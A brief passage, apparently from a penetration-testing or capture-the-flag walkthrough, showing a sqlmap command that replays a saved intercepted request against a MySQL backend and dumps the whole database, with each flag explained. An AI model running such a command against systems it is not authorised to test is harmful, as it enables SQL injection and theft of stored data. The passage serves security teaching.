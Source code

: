 sqlmap -r request.txt --dbms=mysql --dump

**\-r** uses the intercepted request you saved earlier  
**\--dbms** tells SQLMap what type of database management system it is  
**\--dump** attempts to outputs the entire database